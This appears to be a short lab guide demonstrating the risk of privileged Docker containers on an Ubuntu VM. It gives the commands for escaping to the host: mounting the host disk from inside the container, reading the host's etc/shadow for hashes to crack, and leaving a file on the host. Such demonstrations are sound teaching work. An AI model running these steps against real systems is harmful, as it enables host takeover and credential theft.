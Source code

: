 ### Demonstrate why running containers in privileged mode can be a security risk to an organization.

Requirements: 

* Ubuntu 20.04 VM 2 cores 4 GBs of RAM or greater

* [Docker Installed](https://www.digitalocean.com/community/tutorials/how-to-install-and-use-docker-on-ubuntu-20-04)


### Prepare your environment

* After installing docker pull the latest image of alpine `docker pull alpine:latest`
* Run the following command to gain shell access in the container `docker run --privileged -it --rm alpine sh`
* Explain the reasoning one might have to run a container in a privileged mode. (Docker in a docker container is a good example)
* Explain that by running a container in a privileged mode can open up an organization to a number of attacks. 


### Show some examples of damage

* Explain that if an attacker was able to get shell access to a container running in privileged mode this is some things they could do to further penetrate the organization. 
* Run this command in the container shell `mount` you're looking for a directory that starts with `/dev/sda<NUMBER>` and if using the same OS mentioned above (Ubuntu 20.04) then it's `/dev/sda5`
* Create a temp mount directory inside the container shell. `mkdir host_mount`
* Then run the command `mount /dev/sda<NUMBER> /host_mount`
* `cd host_mount` and `ls` to show the hosts root file system. 
* `cat etc/shadow` to show the usernames and hashed passwords of users (John the Ripper Kali)
* Create a fake exploit `touch exploit`
* Exit the container shell to show that the fake exploit file still exists:
* Typing `exit` will get back to your vm shell and `cd /` will get you to the root directory of the vm you're running. Once at the root directory run `ls` to see the exploit still on the host machine. 
